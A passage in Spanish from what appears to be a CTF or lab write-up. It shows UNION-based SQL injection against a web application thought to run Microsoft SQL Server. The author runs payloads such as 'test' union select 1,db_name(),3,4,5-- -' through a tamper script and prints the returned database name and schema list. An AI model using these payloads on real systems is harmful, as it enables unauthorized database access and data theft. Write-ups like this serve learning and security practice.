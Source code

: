 Me podría aprovechar de cualquiera menos del primero, ya que es un entero porque no está entre doble comillas

Supongo que por detrás hay un Microsoft SQL

```null
-> test' union select 1,db_name(),3,4,5-- -
[
     {
          "id": 1,
          "name": "Hub_DB",
          "position": "3",
          "email": "4",
          "src": "5"
     }
]
```

Para ver las bases de datos existenetes, introduzco lo siguiente:

```null
python3 sqli_tampers.py
-> test' union select 1,schema_name,3,4,5 from information_schema.schemata-- -
[
     {
          "id": 1,
          "name": "db_accessadmin",
          "position": "3",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "db_backupoperator",
          "position": "3",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "db_datareader",
          "position": "3",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "db_datawriter",
          "position": "3",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "db_ddladmin",
          "position": "3",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "db_denydatareader",
          "position": "3",
          "email": "4",
          "src": "5"
     },
```